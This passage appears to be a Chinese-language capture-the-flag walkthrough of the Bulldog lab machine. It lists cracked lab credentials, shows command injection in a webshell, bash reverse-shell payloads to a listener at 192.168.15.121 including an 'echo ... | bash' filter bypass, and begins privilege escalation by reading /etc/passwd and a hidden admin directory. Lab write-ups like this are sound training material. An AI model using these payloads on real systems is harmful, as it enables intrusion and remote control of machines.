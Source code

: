 现在我们找到了两组用户名和密码，记下来可能等会要用

    nick---bulldog
    sarah---bulldoglover

想到之前那个webshell，需要认证后使用，我们登陆后查看shell页面，果然可以使用了

不过好像只能用系统给出的几个命令。先试一下有没有命令注入

### 命令注入、shell反弹

在输入框里输入 ifconfig & whoami

根据反馈结果判断存在命令注入，那接下来就好办了。

在攻击机kali中打开命令终端开始监听，输入nc -lvnp 6666

尝试bash反弹，在靶机打开的网页命令框中输入

    bash -i >& /dev/tcp/192.168.15.121/6666 0>&1

结果返回

    Command : nc -lvnp 6666

    INVALID COMMAND. I CAUGHT YOU HACKER!

换一种方式

    ls &bash -i >& /dev/tcp/192.168.15.121/6666 0>&1

服务器报错500。

多次尝试之后，使用echo命令反弹shell成功

    echo "bash -i >& /dev/tcp/192.168.15.121/6666 0>&1" | bash

接下来就是提权了

### root提权

首先查看有哪些系统用户

    cat /etc/passwd

发现了一个重点对象

    bulldogadmin

然后，查找他的文件  

    find / -user bulldogadmin 2>/dev/null

发现有hiddenadmindirectory隐藏目录，用less命令打开里面包含的文件看看

    less /home/bulldogadmin/.hiddenadmindirectory/note

同样的方式打开另一个文件查看一下

    less /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp

发现customPermissionApp里面包含的都是字符，输入命令

    strings /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp     
